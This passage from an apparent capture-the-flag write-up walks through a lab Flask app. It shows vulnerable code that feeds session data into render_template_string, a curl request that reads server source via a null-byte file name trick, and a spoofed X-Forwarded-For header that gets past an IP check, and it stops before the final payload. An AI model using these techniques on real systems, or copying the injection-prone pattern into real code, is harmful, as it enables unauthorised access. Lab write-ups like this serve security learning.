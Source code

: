 ```
Decrypted message: [REDACTED]
```
and now we have the password, let's return to the debug page and provide it the password

![Screenshot from 2023-09-27 12-40-59](https://github.com/7h30ry/writeups/assets/51336409/ec33d049-f3fb-4ba1-94cd-fa776c078205)

and the password is correct and we were able to execute the debug statement.

now let's see in the source code how to see the result of that debug statement

```python
@app.route("/debugresult", methods=["GET"])
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")

    if not session:
        return render_template("debugresult.html")

    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')

    if not debug and not user_password:
        return render_template("debugresult.html")

    # return render_template("debugresult.html", debug=debug, success=True)

    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")
```

okey, so first before accessing the page, the code performs some checks.

first if the IP Check fails we get 401 Unauthorized, since we can read source code files, let's see what's in the imported module ip

```
curl http://10.10.5.80:7777/cloud -X POST -d 'download=ip.py%00.txt'
```
```python
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```
okey so to bypass that we just need to add this header to the request : X-Forwarded-For: 127.0.0.1.

second we need the session, and in order to get the session we need to execute the debug statement with the correct password which we already have, let's execute it again and get the session cookie to include it in the request for /debugresult :
